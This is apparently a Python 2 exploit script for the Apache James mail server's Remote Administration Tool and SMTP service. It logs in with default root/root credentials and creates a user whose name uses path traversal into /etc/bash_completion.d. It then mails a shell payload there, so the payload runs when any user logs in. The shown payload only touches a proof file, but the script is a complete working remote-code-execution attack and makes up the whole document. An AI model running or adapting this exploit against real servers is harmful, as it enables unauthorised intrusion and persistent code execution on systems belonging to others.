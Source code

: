 ```python
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user
payload = '[ "$(id -u)" == "0" ] && touch /root/proof.txt' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."  
```
